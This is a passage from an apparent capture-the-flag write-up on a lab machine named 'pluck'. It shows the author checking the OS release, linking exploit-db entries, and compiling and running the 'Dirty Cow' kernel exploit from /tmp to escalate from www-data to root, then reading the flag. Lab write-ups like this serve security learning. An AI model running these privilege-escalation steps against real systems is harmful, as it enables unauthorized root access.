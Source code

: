 ```txt
https://www.exploit-db.com/exploits/40762/
https://www.exploit-db.com/exploits/40871/
https://www.exploit-db.com/exploits/41994/
https://www.exploit-db.com/exploits/41886/
```

After spending a total of 5+ hours on this CTF, a subsequent check of the version revealed that the OS version was Ubuntu 16.10. This was done by checking the release.

```sh
cat /etc/*release
```

A Google search listed Ubuntu 16.10 as being vulnerable to the "Dirty Cow" privilege escalation vulnerability. The exploit link is listed below.

```txt
https://www.exploit-db.com/exploits/40616/
```

The source code from the exploit was compiled, and the exploit was ran using the following command.

```sh
www-data@pluck:/tmp$ gcc cowroot.c -o cowroot -pthread
www-data@pluck:/tmp$ chmod +x cowroot
www-data@pluck:/tmp$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@pluck:/tmp$ ./cowroot
```

# The Flag

After 5+ hours we had root access, and captured the flag.

```sh
id
uid=0(root) gid=33(www-data) groups=33(www-data)
ls /root
flag.txt
cat /root/flag.txt

Congratulations you found the flag

---------------------------------------

######   ((((((((((((((((((((((((((((((
#########   (((((((((((((((((((((((((((
,,##########   ((((((((((((((((((((((((
@@,,,##########   (((((((((((((((((((((
@@@@@,,,##########
@@@@@@@@,,,############################
@@@@@@@@@@@,,,#########################
@@@@@@@@@,,,###########################
@@@@@@,,,##########
@@@,,,##########   &&&&&&&&&&&&&&&&&&&&
,,,##########   &&&&&&&&&&&&&&&&&&&&&&&
##########   &&&&&&&&&&&&&&&&&&&&&&&&&&
#######   &&&&&&&&&&&&&&&&&&&&&&&&&&&&&
```
